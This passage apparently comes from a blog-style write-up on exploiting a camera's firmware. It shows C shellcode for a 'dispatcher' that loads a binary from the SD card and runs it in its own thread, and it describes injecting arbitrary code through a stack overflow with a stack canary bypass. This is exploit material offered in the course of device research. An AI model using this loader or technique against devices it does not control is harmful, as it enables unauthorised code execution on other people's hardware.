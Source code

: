 ***dispatcher.c***

```
-c
#include <stdint.h>
#include "dispatcher.h"

int _start() {
    malloc_t malloc = (malloc_t) MALLOC_ADDR;
    pthread_create_t pthread_create = (pthread_create_t) PTHREAD_CREATE_ADDR;
    pthread_detach_t pthread_detach = (pthread_detach_t) PTHREAD_DETACH_ADDR;
    sleep_t sleep = (sleep_t) SLEEP_ADDR;

    create_file_struct_t create_file_struct = (create_file_struct_t) CREATE_FILE_STRUCT_ADDR;
    open_file_struct_t open_file_struct = (open_file_struct_t) OPEN_FILE_ADDR;
    read_file_t read_file = (read_file_t) READ_FILE_ADDR;
    get_file_size_t get_file_size = (get_file_size_t) GET_FILE_SIZE_ADDR;
    close_file_t close_file = (close_file_t) CLOSE_FILE_ADDR;

    struct file_struct file_desc;
    create_file_struct(&file_desc);

    int fd = open_file_struct(&file_desc, "/var/tmp/mmcblock0/iperf/main", 0x0);

    uint8_t* buffer = (uint8_t*) malloc(0x10000);

    read_file(&file_desc, buffer, 0x10000);

    close_file(&file_desc);

    pthread_t thread;
    program_func_t program = (program_func_t)buffer;
    pthread_create(&thread, 0, (void*(*)(void*))program, 0);

    pthread_detach(thread);

    return 0;
}
```

So after adding a function call to upload the **screenflash** binary to the SD card as the **main** file, we get the exact same result as above, but as execution is occuring in its own thread, it no longer crashes after a while!

# Payloads

We can now inject arbitrary code into its own thread using the stack overflow + canary bypass, lets do something interesting with it! First we need to figure out how some bits of the camera work.

## Reversing the Screen
